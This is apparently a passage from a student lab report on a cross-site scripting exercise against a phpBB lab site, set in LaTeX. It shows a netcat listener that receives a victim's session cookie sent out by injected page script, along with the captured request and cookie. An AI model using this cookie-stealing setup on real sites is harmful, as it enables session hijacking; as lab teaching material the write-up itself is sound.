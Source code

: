 \documentclass[12pt]{article}
\begin{document}
Netcat(nc) is launched to listen to port 5555.
\lstset{caption=Listening Command, frame=single}
\begin{lstlisting}
nc -l 5555
\end{lstlisting}

When the page is loaded, it will make a call to \emph{http://127.0.1.1:5555} and pass the variable \emph{c} which contains the cookie of the user. Netcat, which is listening on port 5555, will then recieve the request, and print it out on the terminal screen.

\subsection{Result}
\lstset{caption=HTTP Request, frame=single}
\begin{lstlisting}
GET /?c=phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D HTTP/1.1
Host: 127.0.1.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: image/png,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.xsslabphpbb.com/viewtopic.php?p=4


\end{lstlisting}
\lstset{caption=Cookie, frame=single}
\begin{lstlisting}
phpbb2mysql_data=a%3A2%3A%7Bs%3A11%3A%22autologinid%22%3Bs%3A0%3A%22%22%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D;%20phpbb2mysql_sid=a48278d8c065062908d74694211d6d08;%20phpbb2mysql_t=a%3A29%3A%7Bi%3A2%3Bi%3A1350905947%3Bi%3A3%3Bi%3A1350874877%3Bi%3A4%3Bi%3A1350976737%3Bi%3A5%3Bi%3A1350876330%3Bi%3A6%3Bi%3A1350902146%3Bi%3A7%3Bi%3A1350902719%3Bi%3A8%3Bi%3A1350903518%3Bi%3A9%3Bi%3A1350903571%3Bi%3A10%3Bi%3A1350903703%3Bi%3A11%3Bi%3A1350903996%3Bi%3A12%3Bi%3A1350904099%3Bi%3A13%3Bi%3A1350905066%3Bi%3A14%3Bi%3A1350912092%3Bi%3A15%3Bi%3A1350905914%3Bi%3A16%3Bi%3A1350909515%3Bi%3A17%3Bi%3A1350909869%3Bi%3A18%3Bi%3A1350910491%3Bi%3A19%3Bi%3A1350910473%3Bi%3A20%3Bi%3A1350910511%3Bi%3A21%3Bi%3A1350910525%3Bi%3A22%3Bi%3A1350910620%3Bi%3A23%3Bi%3A1350961095%3Bi%3A24%3Bi%3A1350912072%3Bi%3A25%3Bi%3A1350912344%3Bi%3A26%3Bi%3A1350912488%3Bi%3A27%3Bi%3A1350959880%3Bi%3A28%3Bi%3A1350959882%3Bi%3A29%3Bi%3A1350961375%3Bi%3A30%3Bi%3A1350961697%3B%7D
\end{lstlisting}
\end{document}
